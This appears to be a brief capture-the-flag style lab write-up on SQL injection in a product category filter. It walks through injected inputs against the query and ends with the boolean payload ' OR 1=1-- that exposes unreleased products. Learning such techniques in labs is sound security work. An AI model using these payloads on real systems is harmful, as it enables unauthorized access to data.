

**`Retrieving hidden data`**
**SQL injection: Product category filter**

*- SQL query like the following:*
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1

*- Goal: `Display one or more unreleased products.`*

*- Analyze:*

1. SELECT * FROM products WHERE category = 'Gifts' AND released = 1
--> return Gifts page 
2. SELECT * FROM products WHERE category = ''' AND released = 1
--> return error page
3. SELECT * FROM products WHERE category = ''--' AND released = 1
--> return nothing
4. SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
--> return full category of product by using true statement ( Boolean-based)

*`LAB SOLVED`*
